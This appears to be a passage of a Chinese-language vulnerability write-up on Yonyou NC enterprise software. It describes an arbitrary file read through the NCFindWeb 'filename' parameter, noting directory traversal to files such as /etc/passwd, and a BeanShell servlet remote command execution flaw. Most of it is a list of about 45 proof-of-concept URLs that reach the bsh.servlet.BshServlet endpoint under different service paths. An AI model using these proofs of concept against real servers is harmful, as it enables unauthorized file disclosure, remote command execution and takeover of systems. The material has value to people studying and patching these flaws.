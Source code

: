 

## 0x03 漏洞整理

### 3.1 任意文件读取

`filename`参数可以读取下列所有文件，在某些情况下可以读取利用目录穿越可读取/etc/passwd等文件

```
http://x.x.x.x/NCFindWeb?service=IPreAlertConfigService&filename=/
```

![image-20220420110517903](https://cdn.jsdelivr.net/gh/j2ekim/blog-image/image/image-20220420110517903.png)

### 3.2 `bsh.servlet.BshServlet` 远程命令执行漏洞

用友 `NC bsh.servlet.BshServlet` 存在远程命令执行漏洞，通过 `BeanShell` 执行远程命令获取服务器权限。

poc：

```
http://x.x.x.x/service/~aim/bsh.servlet.BshServlet
http://x.x.x.x/service/~alm/bsh.servlet.BshServlet
http://x.x.x.x/service/~ampub/bsh.servlet.BshServlet
http://x.x.x.x/service/~arap/bsh.servlet.BshServlet
http://x.x.x.x/service/~aum/bsh.servlet.BshServlet
http://x.x.x.x/service/~cc/bsh.servlet.BshServlet
http://x.x.x.x/service/~cdm/bsh.servlet.BshServlet
http://x.x.x.x/service/~cmp/bsh.servlet.BshServlet
http://x.x.x.x/service/~ct/bsh.servlet.BshServlet
http://x.x.x.x/service/~dm/bsh.servlet.BshServlet
http://x.x.x.x/service/~erm/bsh.servlet.BshServlet
http://x.x.x.x/service/~fa/bsh.servlet.BshServlet
http://x.x.x.x/service/~fac/bsh.servlet.BshServlet
http://x.x.x.x/service/~fbm/bsh.servlet.BshServlet
http://x.x.x.x/service/~ff/bsh.servlet.BshServlet
http://x.x.x.x/service/~fip/bsh.servlet.BshServlet
http://x.x.x.x/service/~fipub/bsh.servlet.BshServlet
http://x.x.x.x/service/~fp/bsh.servlet.BshServlet
http://x.x.x.x/service/~fts/bsh.servlet.BshServlet
http://x.x.x.x/service/~fvm/bsh.servlet.BshServlet
http://x.x.x.x/service/~gl/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrhi/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrjf/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrpd/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrpub/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrtrn/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrwa/bsh.servlet.BshServlet
http://x.x.x.x/service/~ia/bsh.servlet.BshServlet
http://x.x.x.x/service/~ic/bsh.servlet.BshServlet
http://x.x.x.x/service/~iufo/bsh.servlet.BshServlet
http://x.x.x.x/service/~modules/bsh.servlet.BshServlet
http://x.x.x.x/service/~mpp/bsh.servlet.BshServlet
http://x.x.x.x/service/~obm/bsh.servlet.BshServlet
http://x.x.x.x/service/~pu/bsh.servlet.BshServlet
http://x.x.x.x/service/~qc/bsh.servlet.BshServlet
http://x.x.x.x/service/~sc/bsh.servlet.BshServlet
http://x.x.x.x/service/~scmpub/bsh.servlet.BshServlet
http://x.x.x.x/service/~so/bsh.servlet.BshServlet
http://x.x.x.x/service/~so2/bsh.servlet.BshServlet
http://x.x.x.x/service/~so3/bsh.servlet.BshServlet
http://x.x.x.x/service/~so4/bsh.servlet.BshServlet
http://x.x.x.x/service/~so5/bsh.servlet.BshServlet
http://x.x.x.x/service/~so6/bsh.servlet.BshServlet
http://x.x.x.x/service/~tam/bsh.servlet.BshServlet
http://x.x.x.x/service/~tbb/bsh.servlet.BshServlet
```